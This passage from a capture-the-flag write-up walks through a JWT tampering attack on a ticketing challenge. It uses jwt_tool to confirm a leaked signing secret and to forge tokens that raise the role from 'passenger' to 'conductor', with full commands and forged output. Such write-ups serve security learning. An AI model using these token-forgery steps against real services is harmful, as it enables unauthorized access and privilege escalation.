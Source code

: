 Putting the pieces together:

-   We have a JWT with a payload value of `passenger`, which we need to change to `conductor`
-   An error message revealed the JWT secret: `a_boring_passenger_signing_key_?`

### JWT Tampering

Looks like a [JWT attack](https://portswigger.net/web-security/jwt) - let's see if the key is correct.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -C -p a_boring_passenger_signing_key_?

Password provided, checking if valid...
[+] CORRECT key found:
a_boring_passenger_signing_key_?
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "a_boring_passenger_signing_key_?"
```
{% endcode %}

It is! `jwt_tool` even gave us a command to forge our own token. Let's do that now, setting the payload claim to `conductor`.

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor

jwttool_88a3bbfda9d5113a694dfd1b61799a77 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.77TMRvz8VigLQ_7XOYV5G9gs24Wr70SmfRqTrHvDq_I
```
{% endcode %}

I swapped the cookies, but it didn't work. Maybe we need to change the `kid` header value to `conductor_key` as well 💡

{% code overflow="wrap" %}
```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor -hc kid -hv conductor_key

jwttool_c8c71c7208443249b969aeecbeb77c81 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6ImNvbmR1Y3Rvcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.N8fB2NrjUYWvipOOtn1jQrn7u1XaqEGTEppgbyKBIHE
```
{% endcode %}

Hmmm.. Now it says, `Key isn't passenger or conductor. Please sign your own tickets.` which is the same message I get when signing the token with a random \[invalid\] secret.

